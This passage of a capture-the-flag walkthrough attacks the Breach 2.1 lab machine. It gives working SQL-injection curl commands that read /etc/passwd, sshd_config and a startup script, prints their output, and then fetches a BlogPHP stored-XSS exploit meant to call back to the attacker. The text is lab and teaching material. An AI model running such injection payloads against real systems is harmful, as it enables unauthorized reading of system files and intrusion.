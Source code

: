 ```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27union%20select%200,1,load_file(%27/etc/passwd%27),3,4%20--%20-' | tail -n +14 | head -n -4 | sed '1 s/<table.*<br \/>\(.*\)/\1/' | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
peter:x:1000:1000:peter,,,:/home/peter:/bin/bash
milton:x:1002:1002::/home/milton:/bin/bash
```

**Enumerating the ssh configuration file**

At the bottom of the file configuration we can see that only peter can access via ssh, also in the ForceCommand directive we see that a script called startme is being executed after having logged in.

```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27union%20select%200,1,load_file(%27/etc/ssh/sshd_config%27),3,4%20--%20-' | tail -n +14 | head -n -4 | sed '1 s/<table.*<br \/>\(.*\)/\1/'
...
UsePAM yes
AllowUsers peter
ForceCommand /usr/bin/startme
AddressFamily inet
```

To find out that what this script does, I listed the contents of **/usr/bin/startme**.

```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27union%20select%200,1,load_file(%27/usr/bin/startme%27),3,4%20--%20-' | tail -n +14 | head -n -4 | sed '1 s/<table.*<br \/>\(.*\)/\1/'
#!/bin/bash

sudo /etc/init.d/apache2 start &> /dev/null
```

This script is starting the apache server after peter has logged in.

With SQL Injection vulnerability I cannot find a way to run system commands, so I decided research more and try with the Stored Cross Site Scripting, since I could realize that in the image of the home page was writed beef, so I tried with that.

### Stored Cross Siste Scripting

I copied the 17640.txt file to my current directory.

```bash
root@kali:~$ searchsploit -m php/webapps/17640.txt
  Exploit: BlogPHP 2.0 - Persistent Cross-Site Scripting
      URL: https://www.exploit-db.com/exploits/17640
     Path: /usr/share/exploitdb/exploits/php/webapps/17640.txt
File Type: UTF-8 Unicode text, with CRLF line terminators

Copied to: /root/breach2.1/17640.txt
```

In the instructions it indicates that in the register section the field username is vulnerable, also the victim has to request the members module to trigger the malicious instruction, so I put the following payload, this will try to connect to my machine listening on port 4343.
